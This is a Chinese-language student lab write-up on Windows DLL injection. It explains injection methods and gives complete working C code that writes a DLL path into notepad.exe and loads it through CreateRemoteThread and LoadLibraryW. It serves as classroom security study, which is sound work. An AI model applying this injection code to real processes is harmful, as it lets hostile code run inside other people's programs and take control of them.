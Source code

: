 # DLL注入

## 实验背景

- 所谓的dll注入即是让程序A强行加载程序B给定的a.dll，并执行程序B给定的a.dll里面的代码。注意，程序B所给定的a.dll原先并不会被程序A主动加载，但是当程序B通过某种手段让程序A“加载”a.dll后，程序A将会执行a.dll里的代码，此时，a.dll就进入了程序A的地址空间，而a.dll模块的程序逻辑由程序B的开发者设计，因此程序B的开发者可以对程序A为所欲为。
- 一般dll注入方法
  - 修改注册表来注入dll
  - 使用CreateRemoteThread函数对运行中的进程注入dll
  - 使用SetWindowsHookEx函数对应用程序挂钩(HOOK)迫使程序加载dll
  - 替换应用程序一定会使用的dll
  - 用CreateProcess对子进程注入dll
  - 修改被注入进程的exe的导入地址表
- 本实验将使用CreateRemoteThread函数进行dll注入的示例代码来完成实验
  - 使用VirtualAllocEx在目标进程的地址空间中创建一块我们DLL所在路径长度的内存空间。
  - 使用WriteProcessMemory将DLL路径写入分配的内存。
  - 一旦DLL路径写入内存中，再使用CreateRemoteThread，它调用LoadLibrary函数将DLL注入目标进程中。

## 实验过程

- CreateRemoteThread[示例代码](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings)
  ```
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    #include "fheaders.h"

    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
    {
        // Calculate the number of bytes needed for the DLL's pathname
        DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

        // Get process handle passing in the process ID
        HANDLE hProcess = OpenProcess(
            PROCESS_QUERY_INFORMATION |
            PROCESS_CREATE_THREAD |
            PROCESS_VM_OPERATION |
            PROCESS_VM_WRITE,
            FALSE, dwProcessId);
        if (hProcess == NULL)
        {
            printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Allocate space in the remote process for the pathname
        LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
        if (pszLibFileRemote == NULL)
        {
            printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Copy the DLL's pathname to the remote process address space
        DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
        if (n == 0)
        {
            printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
            return(1);
        }

        // Get the real address of LoadLibraryW in Kernel32.dll
        PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
        if (pfnThreadRtn == NULL)
        {
            printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
            return(1);
        }

        // Create a remote thread that calls LoadLibraryW(DLLPathname)
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
        if (hThread == NULL)
        {
            printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
            return(1);
        }
        else
            printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

        // Wait for the remote thread to terminate
        WaitForSingleObject(hThread, INFINITE);

        // Free the remote memory that contained the DLL's pathname and close Handles
        if (pszLibFileRemote != NULL)
            VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

        if (hThread != NULL)
            CloseHandle(hThread);

        if (hProcess != NULL)
            CloseHandle(hProcess);

        return(0);
    }
  ```

- 主程序

  ```
    #include <Windows.h>
    #include <stdio.h>
    #include <versionhelpers.h>
    #include "fheaders.h"
    #include "auxiliary.h"
    #pragma warning(disable:4996)

    DWORD wmain(int argc, wchar_t* argv[])
    {
        DWORD dwProcessId = 0;

        dwProcessId = findPidByName("notepad.exe");
        demoCreateRemoteThreadW(L"D:\\大三\\SDL\\课堂实验\\DLL注入\\injectAllTheThings\\Debug\\baselib.dll", dwProcessId);
        return(0);
    }

  ```
  
  - findPidByName函数：遍历当前进程，找到相同名称进程的pid
  - demoCreateRemoteThreadW函数：完成整个注入过程的函数，需要dll文件的绝对路径和进程pid
- 所使用到的dll
  - DLL被加载到进程后会自动运行DllMain()函数，用户可以把想执行的代码放到DllMain()函数，每当加载DLL时，添加的代码就会自然得到执行。所以需要增加DLLMain()函数
  - 代码完成后，将项目设置-配置属性-常规-项目默认值设置为动态库(.dll)，然后重新生成项目解决方案，在Debug文件夹生成我们所需要的dll文件
- 运行主程序，完成注入
  ![ ](image\注入成功.JPG)